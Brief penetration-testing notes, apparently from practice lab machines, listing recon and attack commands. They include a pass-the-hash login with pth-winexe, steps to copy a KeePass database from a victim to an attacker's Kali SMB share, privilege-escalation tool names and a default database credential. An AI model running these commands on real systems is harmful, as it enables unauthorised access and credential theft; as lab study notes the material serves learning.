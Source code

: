 look at https://ippsec.rocks/ to search his vids

nmap -sC -sV -oA outputFile IP

-Pass the hash attack to login as a user
   pth-winexe -U jenkins/administrator //10.10.10.63 cmd.exe
   
-transfer files from powershell to attcker kali set up an smb server
  on Kali
    impacket-smb server PleaseSubscribe 'pwd'
  on vulnerable machine in powershell
   New-PSDrive -Name "FollowOnTwitter" -PSProvider "FileSystem" -Root "\\kaliIP\PleaseSubscribe"
   cp C:\Users\kohsuke\Documents\CEH.kdbx .
   
 - powersploit is a good powershell privesc script
    clone and use from developer branch as it enumerates more stuff
    
- common windows privesc exploit: rottenpotato

Hashes.org and hashkiller best website hash cracking

-gobuster 
  -k flag ignores ssl
  shorepoint has its own directory wordlist
  
-connect to webdav using cadaver tool

-ad DNS names to host file to hit them all
  Ippsec cronos is a good example
  
-oracle odat tool

-dbeaver for database connection
   default username: sa default pass:password

Good website for basic enumeration for ports/services found: http://0daysecurity.com/penetration-testing/enumeration.html

